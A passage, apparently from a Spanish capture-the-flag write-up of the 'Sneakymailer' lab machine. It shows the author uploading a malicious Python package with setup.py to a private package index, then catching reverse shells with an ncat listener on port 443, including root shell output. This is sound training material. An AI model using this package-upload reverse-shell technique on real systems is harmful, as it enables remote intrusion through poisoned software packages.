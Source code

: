 Por ultimo sera ejecutar el siguiente comando para tratar de cargar el paquete en la maquina victima `python3 setup.py sdist upload -r linode`

Donde reeemplazaremos `linode` por el nombre que pusimos el el `index-servers` en el `.pypirc` que en nuestro caso es sneakypwned 

```python3
python3 setup.py sdist upload -r sneakypwned
```

Ejecutamos el `setup.py` y nos ponemos en escucha con `ncat`


```bash
❯ ncat -nlvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.16.2.
Ncat: Connection from 10.10.16.2:46076.
# whoami
root
# pwd
/home/fmiracle/Machines/Sneakymailer/content/create
#
```

Pero vemos que nos hace una conexión a nuestra propia maquina, esto es por que primero se ejecuta la conexión locamente

Lo que debemos hacer es volver a ponernos en escucha con `ncat` y salir de nuestra conexión local con un `exit` esto hara que se ejecute la conexión esta vez de la maquina victima.


```bash
❯ ncat -nlvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.16.2.
Ncat: Connection from 10.10.16.2:37168.
# whoami
root
# pwd
/home/fmiracle/Machines/Sneakymailer/content/create
# exit
running sdist
running egg_info
writing linode_example.egg-info/PKG-INFO
writing dependency_links to linode_example.egg-info/dependency_links.txt
writing top-level names to linode_example.egg-info/top_level.txt
reading manifest file 'linode_example.egg-info/SOURCES.txt'
writing manifest file 'linode_example.egg-info/SOURCES.txt'
warning: sdist: standard file not found: should have one of README, README.rst, README.txt, README.md

running check
creating linode_example-0.1
creating linode_example-0.1/linode_example.egg-info
creating linode_example-0.1/package
copying files to linode_example-0.1...
copying setup.cfg -> linode_example-0.1
copying setup.py -> linode_example-0.1
copying linode_example.egg-info/PKG-INFO -> linode_example-0.1/linode_example.egg-info
copying linode_example.egg-info/SOURCES.txt -> linode_example-0.1/linode_example.egg-info
copying linode_example.egg-info/dependency_links.txt -> linode_example-0.1/linode_example.egg-info
copying linode_example.egg-info/top_level.txt -> linode_example-0.1/linode_example.egg-info
copying package/__init__.py -> linode_example-0.1/package
Writing linode_example-0.1/setup.cfg
```